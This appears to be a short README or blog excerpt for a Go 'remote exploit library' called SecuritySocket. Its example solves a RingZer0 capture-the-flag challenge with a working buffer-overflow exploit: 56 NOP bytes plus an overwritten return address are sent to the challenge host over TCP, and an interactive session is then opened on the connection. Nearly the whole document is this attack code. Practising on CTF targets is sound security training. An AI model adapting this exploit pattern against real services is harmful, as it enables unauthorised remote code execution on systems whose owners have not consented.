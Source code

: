 ##### http://www.securitysignal.org/2015/12/securitysocket-remote-exploit-library.html #####

Install Library: go get github.com/hdbreaker/Go-SecuritySocket/ssocket

Example: # Solution with Go of Challenge https://ringzer0team.com/challenges/181

#exploit.go
package main

import (
	"bytes"
	
	"encoding/binary"
	
	"strings"

	"github.com/hdbreaker/Go-SecuritySocket/ssocket"
)

func main() {

	var raoPromptAdress uint32 = 0x40149B //dirección de memoria de rao_promt
	buffRao := new(bytes.Buffer)
	binary.Write(buffRao, binary.LittleEndian, &raoPromptAdress)
	payload := strings.Repeat("\x90", 56) + string(buffRao.Bytes())
	ss := ssocket.SecuritySocket{Protocol: "tcp", Host: "ringzer0team.com:1001"}
	conn := ss.Connect()
	ss.Send(conn, payload)
	ss.Interactive(conn)

}
